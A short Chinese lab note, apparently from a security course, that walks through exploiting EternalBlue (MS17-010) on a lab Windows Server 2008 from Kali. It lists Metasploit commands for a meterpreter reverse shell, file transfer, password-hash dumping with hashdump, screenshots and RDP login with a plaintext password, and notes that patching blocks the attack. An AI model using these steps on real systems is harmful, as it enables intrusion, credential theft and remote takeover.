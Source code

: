   ![9c8c9d2bf62d9f0d75cac98c6ce2d09](https://cdn.jsdelivr.net/gh/Clost-java/MarkDown-Img@master/img/9c8c9d2bf62d9f0d75cac98c6ce2d09.png)

![53711d1fef70f4f09d785265c63b7d6](https://cdn.jsdelivr.net/gh/Clost-java/MarkDown-Img@master/img/53711d1fef70f4f09d785265c63b7d6.png)

- win2008打补丁

  打完补丁，攻击失效

  ![9448c777638039caa2c696934fd0d65](https://cdn.jsdelivr.net/gh/Clost-java/MarkDown-Img@master/img/9448c777638039caa2c696934fd0d65.png)

**MS17-010漏洞入侵**：

- 实验环境

  - 靶机：win2008 192.168.232.132
  - 攻击机:kaliLinux 192.168.232.131
  - 漏洞：永恒之蓝MS17-010

- 实战

  ```shell
  msfconsole
  search ms17-010
  use 2
  set payload windows/x64/meterpreter/reverse_tcp
  set rhosts 192.168.232.132
  exploit 
  
  #查看C盘下文件
  ls c:
  #下载文件
  download c:/tedu.txt
  #上传文件
  upload pass.txt c://
  #破解win2008密码
  getuid
  hashdump
  #截屏
  screenshot
  #提权
  shell
  #远程登录
  rdesktop -u administrator -p Abc12345 192.168.232.132
  
  
  
  
  
  
  ```

  

![9e8cded0f5f1e5c65f216d676409ed1](https://cdn.jsdelivr.net/gh/Clost-java/MarkDown-Img@master/img/9e8cded0f5f1e5c65f216d676409ed1.png)
